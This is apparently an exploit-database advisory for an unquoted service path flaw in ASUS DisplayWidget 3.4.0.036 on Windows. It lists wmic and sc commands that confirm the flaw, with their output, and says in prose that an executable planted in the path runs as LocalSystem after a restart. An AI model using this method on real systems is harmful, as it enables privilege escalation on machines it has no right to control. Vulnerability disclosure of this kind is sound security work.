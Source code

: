     # Exploit Title: ASUS DisplayWidget Software 3.4.0.036 - 'ASUSDisplayWidgetService' Unquoted Service Path
    # Date: 2021-06-21
    # Exploit Author: Julio Aviña
    # Vendor Homepage: https://www.asus.com/
    # Software Link: https://dlcdnets.asus.com/pub/ASUS/LCD%20Monitors/MB16ACE/ASUS_DisplayWidget_3.4.0.036.exe.zip
    # Version: 3.4.0.036
    # Service File Version 1.0.0.1
    # Tested on: Windows 10 Pro x64 es
    # Vulnerability Type: Unquoted Service Path


    # 1. To find the unquoted service path vulnerability

    C:\>wmic service where 'name like "%ASUSDisplayWidgetService%"' get displayname, pathname, startmode, startname

    DisplayName                                      PathName                                                                        StartMode  StartName
    ASUS DisplayWidget Service by Portrait Displays  C:\Program Files\Portrait Displays\ASUS DisplayWidget\DisplayWidgetService.exe  Auto       LocalSystem

    # 2. To check service info:

    C:\>sc qc "ASUSDisplayWidgetService"
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: ASUSDisplayWidgetService
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files\Portrait Displays\ASUS DisplayWidget\DisplayWidgetService.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : ASUS DisplayWidget Service by Portrait Displays
            DEPENDENCIAS       :
            NOMBRE_INICIO_SERVICIO: LocalSystem


    # 3. Exploit:

    A successful attempt to exploit this vulnerability requires the attacker to insert an executable file into the service path undetected by the OS or some security application.
    When restarting the service or the system, the inserted executable will run with elevated privileges.